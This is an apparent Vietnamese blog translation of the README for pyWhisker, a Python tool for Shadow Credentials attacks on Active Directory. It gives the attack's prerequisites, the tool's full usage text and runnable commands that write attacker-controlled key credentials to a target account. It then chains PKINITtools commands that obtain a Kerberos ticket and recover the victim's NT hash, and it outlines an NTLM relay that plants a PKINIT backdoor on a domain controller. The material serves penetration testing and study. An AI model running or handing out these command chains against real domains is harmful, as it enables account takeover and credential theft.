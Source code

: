 ```yaml
---
title: Công cụ pywhisker
date: 1/8/2021
layout: single
header:
  teaser: https://github.com/ShutdownRepo/pywhisker/blob/main/.assets/add_pem.png?raw=true
--- 
```


## Giới thiệu PyWhisker 
Tác giả: ShutdownRepo
Khai thác [github/ShutdownRepo/pywhiske](https://github.com/ShutdownRepo/pywhisker)

PyWhisker là một Python tương đương với [Whisker](https://github.com/eladshamir/Whisker) gốc do [Elad Shamir](https://twitter.com/elad_shamir) tạo ra và được viết bằng C#. Công cụ này cho phép người dùng thao tác thuộc tính `msDS-KeyCredentialLink` của người dùng / máy tính mục tiêu để có toàn quyền kiểm soát đối tượng đó. Nó dựa trên [Impacket](https://github.com/SecureAuthCorp/impacket) và trên Python tương đương với DSInternals của [Michael Grafnetter](https://twitter.com/MGrafnetter) được gọi là [PyDSInternals](https://github.com/p0dalirius/pydsinternals). Công cụ này, cùng với [PKINITtools](https://github.com/dirkjanm/PKINITtools) của [Dirk-jan](https://twitter.com/_dirkjan) cho phép khai thác hoàn toàn nguyên thủy chỉ trên các hệ thống dựa trên UNIX.

Điều kiện tiên quyết cho cuộc tấn công này như sau

1. Mức chức năng miền mục tiêu phải là Windows Server 2016 trở lên.
2. Miền đích phải có ít nhất một Bộ điều khiển miền chạy Windows Server 2016 trở lên.
3. Bộ điều khiển miền để sử dụng trong cuộc tấn công phải có chứng chỉ và khóa riêng (điều này có nghĩa là tổ chức phải có AD CS hoặc PKI, CA hoặc thứ gì đó tương tự).
4. Kẻ tấn công phải có quyền kiểm soát tài khoản có thể ghi thuộc tính msDs-KeyCredentialLink của tài khoản máy tính hoặc người dùng mục tiêu

Tại sao một số yêu cầu trước?

+ Yêu cầu trước 1 và 2 vì các tính năng PKINIT đã được giới thiệu với Windows Server 2016
+ Yêu cầu trước 3 vì DC cần chứng chỉ và khóa của riêng nó để trao đổi khóa phiên trong giao dịch `AS_REQ <-> AS_REP`.
A `KRB-ERROR (16) : KDC_ERR_PADATA_TYPE_NOSUPP` sẽ được nâng lên nếu yêu cầu trước 3 không được đáp ứng.

Thông tin thêm về Shadow Credentials này
+ [Shadow Credentials: Abusing Key Trust Account Mapping for Takeover](https://posts.specterops.io/shadow-credentials-abusing-key-trust-account-mapping-for-takeover-8ee1a53566ab)
+ [The Hacker Recipes - ACEs abuse](https://www.thehacker.recipes/active-directory-domain-services/movement/access-control-entries)
+ [The Hacker Recipes - Shadow Credentials](https://www.thehacker.recipes/active-directory-domain-services/movement/access-control-entries/shadow-credentials)

## Sử dụng
pyWhisker hỗ trợ các xác thực sau

+ (NTLM) Cleartext password
+ (NTLM) [Pass-the-hash](https://www.thehacker.recipes/active-directory-domain-services/movement/lm-and-ntlm/pass-the-hash)
+ (Kerberos) Cleartext password
+ (Kerberos) [Pass-the-key](https://www.thehacker.recipes/active-directory-domain-services/movement/kerberos/pass-the-key) / [Overpass-the-hash](https://www.thehacker.recipes/active-directory-domain-services/movement/kerberos/overpass-the-hash)
+ (Kerberos) [Pass-the-cache](https://www.thehacker.recipes/active-directory-domain-services/movement/kerberos/pass-the-cache) (type of [Pass-the-ticket](https://www.thehacker.recipes/active-directory-domain-services/movement/kerberos/pass-the-ticket))

Trong số những thứ khác, pyWhisker hỗ trợ nhiều cấp độ chi tiết, chỉ cần thêm `-v`,`-vv`

[![Language](https://img.shields.io/badge/Lang-python-blue.svg)](https://www.python.org/)

```powershell
usage: pywhisker.py [-h] -t TARGET_SAMNAME [-a [{list,add,remove,clear,info}]] [--use-ldaps] [-v] [-q] [--no-pass] [--dc-ip ip address] [-d DOMAIN] [-u USER]
                    (-p PASSWORD | -H [LMHASH:]NTHASH | --aes-key hex key | -k) [-cp CERT_PASSWORD] [-o OUTPUT_PATH] [-e {PEM, PFX}] [-D DEVICE_ID]

Python (re)setter for property msDS-KeyCredentialLink for Shadow Credentials attacks.

optional arguments:
  -h, --help            show this help message and exit
  -t TARGET_SAMNAME, --target TARGET_SAMNAME
                        Target account
  -a [{list,add,remove,clear,info}], --action [{list,add,remove,clear,info}]
                        Action to operate on msDS-KeyCredentialLink
  --use-ldaps           Use LDAPS instead of LDAP
  -v, --verbose         verbosity level (-v for verbose, -vv for debug)
  -q, --quiet           show no information at all

authentication:
  --no-pass             don't ask for password (useful for -k)

authentication & connection:
  --dc-ip ip address    IP Address of the domain controller or KDC (Key Distribution Center) for Kerberos. If omitted it will use the domain part (FQDN) specified in the identity parameter
  -d DOMAIN, --domain DOMAIN
                        (FQDN) domain to authenticate to
  -u USER, --user USER  user to authenticate with
  -p PASSWORD, --password PASSWORD
                        password to authenticate with
  -H [LMHASH:]NTHASH, --hashes [LMHASH:]NTHASH
                        NT/LM hashes, format is LMhash:NThash
  --aes-key hex key     AES key to use for Kerberos Authentication (128 or 256 bits)
  -k, --kerberos        Use Kerberos authentication. Grabs credentials from ccache file (KRB5CCNAME) based on target parameters. If valid credentials cannot be found, it will use the ones specified in the
                        command line

arguments when setting -action to add:
  -cp CERT_PASSWORD, --cert-password CERT_PASSWORD
                        password for the stored self-signed certificate (will be random if not set)
  -o OUTPUT_PATH, --output-path OUTPUT_PATH
                        filename to store the generated self-signed PEM or PFX certificate and key
  -e {PEM, PFX}, --export {PEM, PFX}
                        choose to export cert+private key in PEM or PFX (i.e. #PKCS12) (default: PFX))

arguments when setting -action to remove:
  -D DEVICE_ID, --device-id DEVICE_ID
                        device ID of the KeyCredentialLink to remove when setting -action to remove

```
Dưới đây là các ví dụ và ảnh chụp màn hình về những gì PyWhisker có thể làm

## Liệt kê và nhận thông tin
PyWhisker có khả năng liệt kê các KeyCredentials hiện có. Ngoài ra, nó có thể mở toàn bộ cấu trúc để hiển thị mọi phần thông tin mà đối tượng chứa (bao gồm cả các tham số khóa công khai RSA)

```powershell
python3 pywhisker.py -d "domain.local" -u "user1" -p "complexpassword" --target "user2" --action "list"
python3 pywhisker.py -d "domain.local" -u "user1" -p "complexpassword" --target "user2" --action "info" --device-id 6419739b-ff90-f5c7-0737-1331daeb7db6
```
![1](https://github.com/ShutdownRepo/pywhisker/raw/main/.assets/list_info.png)

## Clear and remove
PyWhisker có khả năng xóa các giá trị cụ thể hoặc xóa toàn bộ thuộc tính.
```powershell
python3 pywhisker.py -d "domain.local" -u "user1" -p "complexpassword" --target "user2" --action "remove" --device-id a8ce856e-9b58-61f9-8fd3-b079689eb46e
```
![2](https://github.com/ShutdownRepo/pywhisker/raw/main/.assets/remove.png)

```powershell
python3 pywhisker.py -d "domain.local" -u "user1" -p "complexpassword" --target "user2" --action "clear"
```
![3](https://github.com/ShutdownRepo/pywhisker/raw/main/.assets/clear.png)

## Thêm giá trị mới
PyWhisker có khả năng tạo khóa RSA, chứng chỉ X509, cấu trúc KeyCredential và ghi thông tin cần thiết dưới dạng giá trị mới của thuộc tính `msDs-KeyCredentialLink`. Chứng chỉ có thể được xuất ở định dạng PFX (# PKCS12, khóa riêng của chứng chỉ được bảo vệ bằng mật khẩu) hoặc ở định dạng PEM (chứng chỉ PEM, khóa riêng PEM, không cần mật khẩu).

## Ví dụ với định dạng PFX
```powershell
python3 pywhisker.py -d "domain.local" -u "user1" -p "complexpassword" --target "user2" --action "add" --output-path test1
```
![4](https://github.com/ShutdownRepo/pywhisker/raw/main/.assets/add_pfx.png)

Khi các giá trị được tạo và thêm bởi pyWhisker, TGT có thể được yêu cầu với [gettgtpkinit.py](https://github.com/dirkjanm/PKINITtools/blob/master/gettgtpkinit.py). Băm NT sau đó có thể được khôi phục bằng [getnthash.py](https://github.com/dirkjanm/PKINITtools/blob/master/getnthash.py)

```powershell
python3 PKINITtools/gettgtpkinit.py -cert-pfx test1.pfx -pfx-pass xl6RyLBLqdhBlCTHJF3R domain.local/user2 user2.ccache
python3 PKINITtools/getnthash.py -key f4d6738897808edd3868fa8c60f147366c41016df623de048d600d4e2f156aa9 domain.local/user2
```
![5](https://github.com/ShutdownRepo/pywhisker/raw/main/.assets/add_pfx_gettgtnthash.png)

## Ví dụ với định dạng PEM
```powershell
python3 pywhisker.py -d "domain.local" -u "user1" -p "complexpassword" --target "user2" --action "add" --output-path test2 --export PEM
```

![6](https://github.com/ShutdownRepo/pywhisker/raw/main/.assets/add_pem.png)

Khi các giá trị được tạo và thêm bởi pyWhisker, TGT có thể được yêu cầu với `gettgtpkinit.py1`. Băm NT sau đó có thể được khôi phục bằng `getnthash.py`.

```powershell
python3 PKINITtools/gettgtpkinit.py -cert-pem test2_cert.pem -key-pem test2_priv.pem domain.local/user2 user2.ccache
python3 PKINITtools/getnthash.py -key 894fde81fb7cf87963e4bda9e9e288536a0508a1553f15fdf24731731cecad16 domain.local/user2
```

![7](https://github.com/ShutdownRepo/pywhisker/raw/main/.assets/add_pem_gettgtnthash.png)

## Xác thực chuyển tiếp
[Yêu cầu](https://github.com/SecureAuthCorp/impacket/pull/1132) hiện đang chờ phê duyệt để đưa tính năng "thêm" của pywhisker vào ntlmrelayx

![8](https://github.com/ShutdownRepo/pywhisker/raw/main/.assets/relay.png)

## Kiến thức hữu ích
Đối tượng người dùng không thể chỉnh sửa thuộc tính `msDS-KeyCredentialLink` của riêng họ. Các đối tượng máy tính có thể. Điều này có nghĩa là tình huống sau có thể hoạt động: kích hoạt xác thực NTLM từ DC01, chuyển tiếp nó đến DC02, khiến pywhisker chỉnh sửa thuộc tính của DC01 để tạo cửa sau xác thực trước Kerberos PKINIT trên đó

![9](https://github.com/ShutdownRepo/pywhisker/raw/main/.assets/user_cant_self_edit.png)

Các đối tượng máy tính có thể chỉnh sửa thuộc tính `msDS-KeyCredentialLink` của riêng chúng nhưng chỉ có thể thêm KeyCredential nếu chưa có

![10](https://github.com/ShutdownRepo/pywhisker/raw/main/.assets/computers_can_self_edit.png)

Nếu bạn gặp lỗi, hãy đảm bảo không có sự chênh lệch về thời gian giữa máy chủ lưu trữ kẻ tấn công của bạn và Trung tâm phân phối khóa (thường là Bộ điều khiển miền). Để tránh lỗi đó, các chứng chỉ được tạo bởi công cụ pyWhisker có giá trị 40 năm trước ngày hiện tại và 40 năm sau.

## Tín dụng và tài liệu tham khảo
+ Tín dụng cho [Dirk-jan](https://twitter.com/_dirkjan) vì công việc của anh ấy trên [PKINITtools](https://github.com/dirkjanm/PKINITtools/). Ban đầu, chúng tôi đã lên kế hoạch tái cấu trúc các tập lệnh Impacket (đặc biệt là [gettgt.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/getTGT.py)) để triển khai xác thực trước PKINIT không đối xứng cho Kerberos. Anh ấy đã cứu chúng tôi rất nhiều đau đầu bằng cách viết nó trước chúng tôi!
+ Tín dụng cho toàn bộ nhóm đằng sau [Impacket](https://github.com/SecureAuthCorp/impacket/) và những người đóng góp của nó.
+ Tín dụng cho [Elad Shamir](https://twitter.com/elad_shamir), người đã tạo ra công cụ C # ban đầu ([Whisker](https://github.com/eladshamir/Whisker)) và cho [Michael Grafnetter's](https://twitter.com/MGrafnetter), người đã tạo ra [DSInternals](https://github.com/MichaelGrafnetter/DSInternals), một thư viện thực hiện hầu hết các công việc nặng nhọc của Whisker. Anh ấy cũng là người đã thực hiện bản demo đầu tiên của Mũ đen trình bày về đòn tấn công 
